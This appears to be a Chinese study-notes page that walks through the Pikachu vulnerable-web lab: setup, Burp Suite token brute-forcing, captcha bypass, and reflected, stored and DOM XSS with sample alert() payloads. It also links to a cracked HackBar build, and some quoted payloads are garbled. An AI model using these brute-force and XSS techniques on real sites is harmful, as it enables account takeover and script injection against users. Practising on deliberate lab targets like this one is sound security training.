

[https://www.fkqq.fun/2022/07/11/pikachu/](https://www.fkqq.fun/2022/07/11/pikachu/)
# 搭建 Pikachu 靶场

```bash
sudo docker pull area39/pikachu
sudo docker run -itd -p 80:80 -p 3306:3306 --name pikachu area39/pikachu
```

点击安装/初始化

然后点击 `Click here`

# 浏览器访问过程
是的，在浏览器中访问一个网页时，大致流程如下：

1. **发起请求**：输入 URL 或点击链接后，浏览器会生成一个 HTTP 请求，其中包含要访问页面的 URL 以及其他信息，如浏览器类型、可接受的内容类型等。

2. **服务器接收**：这个 HTTP 请求被发送到网站对应的服务器。服务器可以是 Apache、Nginx 等 Web 服务器，它监听特定端口（通常是 80 端口，HTTPS 则是 443 端口）并接收客户端的请求。

3. **处理请求**：服务器收到请求后，根据 URL 路径确定要执行哪个文件。在 PHP 环境下，如果 URL 指向一个 .php 文件，服务器（通过 PHP 处理模块）就会执行该文件。执行过程中会解析 PHP 文件中的代码，可能包括数据库查询、业务逻辑处理、文件读写等操作。

4. **生成响应**：PHP 文件执行完毕后，通常会产生一些输出，可以是 HTML、CSS、JavaScript 代码，也可以是 JSON、XML 等数据格式。这些输出就是对原始 HTTP 请求的响应体。

5. **发送响应**：服务器把生成的响应内容封装成 HTTP 响应报文，包括状态码（如 200 表示成功）、响应头（描述响应类型、编码、缓存设置等）以及响应体（上面生成的内容），然后把这个响应发回浏览器。

6. **浏览器渲染**：浏览器收到服务器的响应后，解析 HTML 和 CSS，执行 JavaScript，最终把内容渲染成用户可见的网页。

# 配置 Burp Suite 代理
[https://blog.csdn.net/curious233/article/details/113179504](https://blog.csdn.net/curious233/article/details/113179504)

# 安装和使用 HackBar
安装这个破解版

[https://github.com/fengwenhua/hackbar_crack](https://github.com/fengwenhua/hackbar_crack)

# 在 Kali 上安装中国蚁剑（AntSword）
[https://www.cnblogs.com/arsonist/p/16940975.html](https://www.cnblogs.com/arsonist/p/16940975.html)
# 暴力破解
- 用字典尝试弱口令
- 利用泄露的账号密码库进行撞库
- 用工具按指定规则组合指定字符生成密码，会用到很多特定字符，如手机号、出生日期、姓名等。

防范措施
- 要求用户设置复杂密码；
- 使用验证码
- 检测并限制登录尝试（例如连续 5 次登录失败后锁定账号或 IP 地址）
- 多因素认证

1. 确认是否存在暴力破解漏洞
2. 配置字典（通过注册来确定字典组合，并区分当前登录的是普通用户账号还是管理后台）

[Burp Suite 暴力破解](https://cloud.tencent.com/developer/article/1510007)

## cookie
cookie 是在 Web 浏览器和服务器之间传递数据的一种方式。它让服务器能够识别用户的特定信息，从而实现用户会话跟踪、保持登录状态等功能。你给出的例子 `Cookie: PHPSESSID=t2mqaq10tusne8c7p7o5j1ch25` 描述的是一个具体的 cookie 实例。下面用一个简化的场景来解释这个例子的含义和作用：

### 简化场景

假设张三访问一个用 PHP 开发的在线购物网站 example.com。张三第一次访问该网站时，服务器为了识别和跟踪张三的访问，会创建一个唯一的会话标识（Session ID），并通过 Set-Cookie HTTP 响应头把这个标识发送给张三的浏览器。在这个例子中，`PHPSESSID` 是这个会话标识的名字，`t2mqaq10tusne8c7p7o5j1ch25` 是实际的会话 ID 值。

### 各部分解释

- **Cookie**：这是 HTTP 协议中的一个头字段关键字，表示后面的信息是关于 cookie 的。
  
- **PHPSESSID**：这是 cookie 的名字，表示它与 PHP 会话有关。在 PHP 中，`PHPSESSID` 是会话标识的默认键名，用于存储会话数据的唯一 ID。

- **=**：cookie 名与值之间的分隔符。

- **t2mqaq10tusne8c7p7o5j1ch25**：这是 cookie 的实际值，即张三会话的唯一标识。这个字符串是随机生成的，以确保每个用户的会话不会与他人混淆。

### 工作原理

1. **首次访问**：服务器生成一个会话 ID 并发送给浏览器，浏览器保存这个 cookie（通常保存在本地）。

2. **后续请求**：每当张三的浏览器向该网站发送请求（例如点击链接或提交表单）时，都会自动在 HTTP 请求头中带上 `Cookie: PHPSESSID=t2mqaq10tusne8c7p7o5j1ch25`。

3. **服务器处理**：服务器收到携带该 cookie 的请求后，查找这个 `PHPSESSID` 对应的会话数据，就知道这是张三的会话，从而恢复他的登录状态、购物车内容等。

这样，即使在无状态的 HTTP 协议之上，也实现了有状态的用户交互，提升了用户体验和安全性。不过要注意，cookie 的安全和隐私保护也是开发中的重点，例如使用 HTTPS 加密 cookie 的传输、合理设置 cookie 的有效期等。
## 基于表单的暴力破解

## 验证码绕过（on server）
- 服务器生成验证码并发送给前端
- 用户在登录页看到的验证码是后端发来的
- 前端把输入的验证码和登录信息一起发给后端进行比对
- 如果失败，而验证码机制只在验证码比对失败时才刷新并重新发送验证码给前端，那么在账号密码错误时，同一个验证码就可以反复使用直到成功



## 验证码绕过（on client）
- 页面刷新后，由前端生成验证码
- 点击登录时先校验验证码，再决定是否把数据包发给后端

- 输入正确的验证码后抓包，就可以无限次发送
- 而且无论发送的数据包是否包含验证码相关信息，结果都不受影响

- 否则如果验证码错误，就抓不到包
- 


## token 能防暴力破解吗？
[https://blog.csdn.net/a987329381/article/details/130917886](https://blog.csdn.net/a987329381/article/details/130917886)

> 注意 fetch 响应中的 token 作用于当前请求报文，即必须把当前请求报文的 token 设置为响应中的 token。

暴力破解中，0 号请求是当前发送的数据包，第一个请求才是从字典开始爆破的请求。

本例中 token 的作用
- 服务器响应给客户端的信息中包含一个服务器生成的 token，供下一次请求使用。

Burp Suite 的 "Intruder" 模块是一个强大的工具，可以执行各种类型的自动化攻击，包括密码破解、参数模糊测试和 token 爆破。`Recursive Grep` 功能在 token 爆破中的作用主要体现在以下几个方面：

1. **动态提取 token**：在 token 爆破过程中，目标网站通常会为每个请求生成一个新的 token，作为防止重放攻击的安全措施。`Recursive Grep` 可以自动从服务器响应中提取最新的 token 值，确保每个攻击请求都使用最新的有效 token。

2. **自动更新 payload**：把 `Payload type` 设置为 `Recursive Grep`，就可以配置 Intruder 在每次攻击迭代时用 `Grep Extractor` 从上一个响应中提取匹配特定模式的文本（如 token 值），并把提取到的值动态插入下一个请求的相应位置。这样即使 token 随每个请求变化，攻击也能继续进行，提高了暴力破解的有效性。

3. **多线程兼容性说明**：值得注意的是，使用 `Recursive Grep` 提取 payload 时，由于它依赖每个请求的响应来动态生成下一个请求的 payload，通常不能与多线程（并发请求）攻击一起使用，否则可能导致逻辑混乱、提取到错误的 token 值或请求失败。



从第二个请求开始才对应字典中的值，因为 0 号请求是当前发送的数据包，而第一个数据包虽然用的是字典的第一项，但其 token 没有自动更新，需要一个初始值，而这个初始值无法预测（因为前一个数据包即 0 号请求还没有发送，得到的响应中的 token 自然也是未知的）。

# XSS（跨站脚本）
[https://www.cnblogs.com/dogecheng/p/11556221.html](https://www.cnblogs.com/dogecheng/p/11556221.html)
[https://blog.csdn.net/m0_46467017/article/details/124747885](https://blog.csdn.net/m0_46467017/article/details/124747885)
XSS 漏洞形成的主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入提交到服务器后，在前端被接收时被浏览器当作有效代码解析执行，从而产生危害。

##  反射型 XSS（GET）
GET 型 XSS 漏洞，即相应内容通过 GET 方式提交到服务器，再由前端解析
- 修改前端的输入长度限制
- 然后提交能执行并产生反馈的代码


输入的内容通过 GET 方式（在 URL 中）提交到服务器



## 反射型 XSS（POST）
GET 通过 URL 提交数据；
POST 通过表单在请求体中提交数据；

URL 中不包含 POST 的内容

## 存储型 XSS
即请求被记录在服务器上，之后每次访问都会返回服务器上存储的被修改过的内容

每次请求都会返回存储的结果 `<script>alert("llk")</script>`

##  DOM 型 XSS


### `domxss` 函数
这个函数的作用是获取用户在页面输入框（ID 为 "text"）中输入的文本，并把它作为链接的一部分动态插入页面上的另一个元素（ID 为 "dom"）中。

```javascript
function domxss(){
    var str = document.getElementById("text").value;
    document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
}
```

1. **获取用户输入**：`var str = document.getElementById("text").value;` 这行获取 ID 为 "text" 的 HTML 元素（假定是一个文本输入框）的值，即用户输入的文本。

2. **构造并插入链接**：`document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";` 这行把用户输入 `str` 拼接到 `<a>` 标签的 `href` 属性中，再用 `innerHTML` 把它设置为 ID 为 "dom" 的元素的内容。这意味着用户输入的文本直接成为了链接的一部分。

### 攻击尝试示例
接下来两行注释展示了攻击者可能尝试的、用于利用 DOM 型 XSS 漏洞的输入：

- `'>`
  这个输入试图闭合原来的 `<a>` 标签，并添加一个带 `onmouseover` 事件的 `` 标签。鼠标悬停在这个链接上时，会触发 JavaScript 的 `alert('xss')`，弹出一个显示 "xss" 的警告框，证明 XSS 攻击成功。

- `onclick="alert('xss')">`
  这是一个更简洁的尝试：通过在输入中添加 `onclick` 事件，点击链接时同样会执行 `alert('xss')`，展示 XSS 攻击的效果。



## DOM 型 XSS - x
与前面类似，区别是需要先提交以得到一个包含 onclick 属性的链接，之后的操作与前面相同

### `domxss` 函数的工作流程：
1. **获取查询字符串**：`var str = window.location.search;` 这行获取当前页面 URL 的查询字符串部分。例如，如果 URL 是 `http://example.com/?text=hello`，那么 `str` 就是 `"?text=hello"`。

2. **提取并解码参数**：`var txss = decodeURIComponent(str.split("text=")[1]);` 这行先用 `split("text=")` 把查询字符串分割成数组，再取数组的第二个元素（下标 1），即用户输入的值。然后用 `decodeURIComponent` 解码 URL 编码，以得到原始的用户输入。

3. **替换特殊字符**：`var xss = txss.replace(/\+/g,' ');` 这一步把解码后字符串中的加号（`+`）替换为空格，因为在 URL 编码中加号表示空格，但这一步在 XSS 场景下并不是安全措施。

4. **插入 DOM**：最后，`document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";` 这行把解码后的用户输入 `xss` 作为超链接的 `href` 属性值插入 ID 为 "dom" 的 HTML 元素中。这正是 XSS 漏洞产生的地方，因为用户输入未经任何过滤或转义就直接插入了 HTML。

### 安全问题与攻击尝试：
- **攻击尝试 1**：如果 URL 是 `http://example.com/?text=%3E%3Cimg%20src%23%20onmouseover%3D%22alert('xss')%22%3E`，解码后就变成 `>`。这段恶意代码试图注入一个图片标签，鼠标悬停时触发显示 "xss" 的 JavaScript 弹窗，证明存在 DOM 型 XSS 漏洞。

- **攻击尝试 2**：另一种攻击尝试如 `http://example.com/?text='%20onclick%3D%22alert('xss')%22%20'`，试图闭合超链接标签并添加 `onclick` 事件，点击链接时触发 JavaScript 弹窗。
## XSS 盲打
- 即输入的内容被发送到后端并被后端当作代码执行，但内容不会返回到前端
- 后端的人员能看到输入的内容或 XSS 攻击的结果
